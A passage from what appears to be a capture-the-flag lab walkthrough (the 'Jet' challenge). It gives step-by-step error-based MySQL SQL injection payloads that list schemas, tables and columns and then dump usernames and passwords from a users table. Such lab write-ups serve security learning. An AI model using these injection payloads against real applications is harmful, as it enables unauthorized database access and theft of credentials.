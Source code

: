 

We can concatenate several `querys`so we add a `0x20`for a space and copy the `query`this time changing `0,1`by `1,1`to see both results

```
' or (select 1 from(select count(*),concat((select mid((ifnull(cast(schema_name as nchar),0x20)),1,54) from information_schema.schemata limit 0,1),0x20,(select mid((ifnull(cast(schema_name as nchar),0x20)),1,54) from information_schema.schemata limit 1,1),0x20,floor(rand(0)*2))x from information_schema.plugins group by x)a)-- -  
```

  
[

![](https://xchg2pwn.github.io/fortresses/jet/19.png)





Only the database exists `jetadmin`so we will list its`tablas`

```
' or (select 1 from(select count(*),concat((select mid((ifnull(cast(table_name as nchar),0x20)),1,54) from information_schema.tables where table_schema='jetadmin' limit 0,1),0x20,floor(rand(0)*2))x from information_schema.plugins group by x)a)-- -  
```

  
[

![](https://xchg2pwn.github.io/fortresses/jet/20.png)





In the database `jetadmin`there is only the table `users`, so we can list its `columnas`, in this case we only find 3 `id`, `username`and`password`

```
' or (select 1 from(select count(*),concat((select mid((ifnull(cast(column_name as nchar),0x20)),1,54) from information_schema.columns where table_schema='jetadmin' limit 0,1),0x20,(select mid((ifnull(cast(column_name as nchar),0x20)),1,54) from information_schema.columns where table_schema='jetadmin' limit 1,1),0x20,(select mid((ifnull(cast(column_name as nchar),0x20)),1,54) from information_schema.columns where table_schema='jetadmin' limit 2,1),0x20,floor(rand(0)*2))x from information_schema.plugins group by x)a)-- -  
```

  
[

![](https://xchg2pwn.github.io/fortresses/jet/21.png)





Finally we dump the columns `username`and `password`separating them by`:`

```
' or (select 1 from(select count(*),concat((select mid((ifnull(cast(username as nchar),0x20)),1,54) from users limit 0,1),0x3a,(select mid((ifnull(cast(password as nchar),0x20)),1,54) from users limit 0,1),0x20,floor(rand(0)*2))x from information_schema.plugins group by x)a)-- -  
```
